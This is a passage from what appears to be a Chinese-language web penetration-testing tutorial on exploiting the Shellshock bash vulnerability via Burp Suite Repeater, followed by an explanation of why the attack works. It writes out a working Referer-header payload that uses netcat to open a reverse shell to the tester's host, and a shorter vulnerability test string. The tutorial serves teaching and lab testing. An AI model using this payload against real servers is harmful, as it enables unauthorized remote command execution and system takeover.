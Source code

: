 1.  现在访问 BurpSuite 的代理历史，选择任何`shellshock.sh`的请求，右击它并发送到 Repeater，像这样：

    ![](img/7-7-7.jpg)
    
2.  在 Repeater 中，修改 Referer 的值为：

    ```
    () { :;}; echo "Vulnerable:" $(/bin/sh -c "nc -e /bin/bash 192.168.56.1 12345")
    ```
    
    这里，192.168.56.1 是我们 Kali 主机的地址。
    
3.  点击`Go`。

4.  如果我们检查我们的终端，我们可以看到连接已建立，执行一些命令来检查我们是否得到了远程 shell。

    ![](img/7-7-8.jpg)
    
### 工作原理

在第一步中，我们发现了 shell 脚本的调用。因为它可以被 shell 解释器运行，它可能是漏洞版本的 bash。为了验证，我们执行了下列测试：

```sh
() { :;}; echo "Vulnerable:" 
```

第一个部分`() { :;};`是个空函数，因为 bash 可以将函数储存为环境变量，这个是漏洞的核心。在函数结束之后，解析器会继续解释（并执行）命令，这允许我们执行第二个部分`echo "Vulnerable:`，这是简单返回输入的命令。

Web 服务器中存在漏洞，因为 CGI 事先将请求的所有部分映射为环境变量，所以这个攻击通过`User-Agent`或者`Accept-Language`也能工作。
